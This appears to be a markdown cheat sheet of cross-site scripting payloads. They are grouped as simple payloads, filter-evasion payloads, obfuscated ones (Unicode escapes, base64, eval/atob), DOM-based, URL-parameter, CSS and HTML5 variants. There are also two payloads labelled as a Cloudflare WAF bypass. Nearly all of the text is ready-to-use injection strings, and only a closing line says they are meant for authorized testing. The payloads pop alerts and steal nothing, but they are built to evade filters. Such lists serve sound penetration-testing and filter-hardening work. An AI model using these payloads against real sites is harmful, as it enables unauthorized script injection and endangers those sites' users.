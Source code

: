 **Encoder and decoder site :**  

**<https://dencode.com/en/>**

**Resources** : 
<https://github.com/swisskyrepo/PayloadsAllTheThings>
 



Use this Payload and understand the system


test\/><'"'

If the system bypass then half opened script tags 
      


Here’s a categorized list of **XSS payloads** for bypassing filters, including **simple**, **advanced**, and **obfuscated** payloads:

Cloudflare bypass payload

- Dec: <svg onload=prompt%26%230000000040document.domain)>
-  Hex: <svg onload=prompt%26%23x000000028;document.domain)>
---

### **Simple XSS Payloads:**
- `<script>alert('XSS')</script>`
- `<img src=x onerror=alert('XSS')>`
- `<svg/onload=alert('XSS')>`
- `<body onload=alert('XSS')>`
- `<iframe src="javascript:alert('XSS')"></iframe>`
- `<a href="javascript:alert('XSS')">Click me</a>`
- `<div onmouseover=alert('XSS')>Hover me</div>`
- `<input type="text" value="" onfocus=alert('XSS') autofocus>`
- `<marquee onstart=alert('XSS')>XSS</marquee>`
- `<details/open/ontoggle=alert('XSS')>`

---

### **XSS Bypass Payloads (Filter Evasion):**
- `<scr<script>ipt>alert('XSS')</scr</script>ipt>`
- `<img src=x oneonerrorrror=alert('XSS')>`
- `<svg><script>alert('XSS')</script></svg>`
- `<img src="x:gif" onerror="alert('XSS')">`
- `<img src=x onerror=alert(String.fromCharCode(88,83,83))>`
- `<img src=x onerror=alert`XSS`>`
- `<img src=x onerror=alert(&#39;XSS&#39;)>`
- `<img src=x onerror=alert(&#x27;XSS&#x27;)>`
- `<img src=x onerror=alert('\x58\x53\x53')>`
- `<img src=x onerror=eval('alert("XSS")')>`

---

### **Advanced XSS Payloads (Obfuscation):**
- `<script>\u0061\u006C\u0065\u0072\u0074('XSS')</script>`
- `<img src=x onerror=\u0061\u006C\u0065\u0072\u0074('XSS')>`
- `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
- `<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/wcAAgAB/2y6VwAAAABJRU5ErkJggg==" onload="alert('XSS')">`
- `<iframe srcdoc="<script>alert('XSS')</script>"></iframe>`
- `<object data="javascript:alert('XSS')"></object>`
- `<embed src="javascript:alert('XSS')">`
- `<video><source onerror=alert('XSS')></video>`
- `<audio src=x onerror=alert('XSS')>`
- `<style>@keyframes x{from{color:red;}to{color:blue;}}body{animation:x 1s infinite;}</style>`

---

### **DOM-Based XSS Payloads:**
- `#<script>alert('XSS')</script>`
- `#javascript:alert('XSS')`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<iframe src="javascript:alert('XSS')"></iframe>`

---

### **XSS in URL Parameters:**
- `<http://example.com/?q=><script>alert('XSS')</script>`
- `<http://example.com/?q=>"><img src=x onerror=alert('XSS')>`
- `<http://example.com/?q=javascript:alert('XSS')>`
- `<http://example.com/?q=><svg/onload=alert('XSS')>`
- `<http://example.com/?q=><iframe src="javascript:alert('XSS')"></iframe>`

---

### **XSS Using Template Literals:**
- `<script>alert`XSS`</script>`
- `<img src=x onerror=alert`XSS`>`
- `<svg/onload=alert`XSS`>`

---

### **XSS Using HTML Entities:**
- `&lt;script&gt;alert('XSS')&lt;/script&gt;`
- `&lt;img src=x onerror=alert('XSS')&gt;`
- `&lt;svg/onload=alert('XSS')&gt;`

---

### **XSS Using JavaScript Functions:**
- `<script>setTimeout('alert("XSS")', 1000)</script>`
- `<script>eval('alert("XSS")')</script>`
- `<script>Function('alert("XSS")')()</script>`
- `<script>new Function('alert("XSS")')()</script>`

---

### **XSS Using CSS:**
- `<style>@keyframes x{from{color:red;}to{color:blue;}}body{animation:x 1s infinite;}</style>`
- `<div style="background-image:url(javascript:alert('XSS'))">`
- `<link rel="stylesheet" href="javascript:alert('XSS')">`

---

### **XSS Using Base64 Encoding:**
- `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>`
- `<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/wcAAgAB/2y6VwAAAABJRU5ErkJggg==" onload="alert('XSS')">`

---

### **XSS Using Unicode:**
- `<script>\u0061\u006C\u0065\u0072\u0074('XSS')</script>`
- `<img src=x onerror=\u0061\u006C\u0065\u0072\u0074('XSS')>`
- `<svg/onload=\u0061\u006C\u0065\u0072\u0074('XSS')>`

---

### **XSS Using HTML5 Tags:**
- `<details/open/ontoggle=alert('XSS')>`
- `<video><source onerror=alert('XSS')></video>`
- `<audio src=x onerror=alert('XSS')>`
- `<picture><img src=x onerror=alert('XSS')></picture>`

---

**Note:** These payloads are for educational and testing purposes only. Always use them responsibly and with proper authorization. Unauthorized use is illegal and unethical.
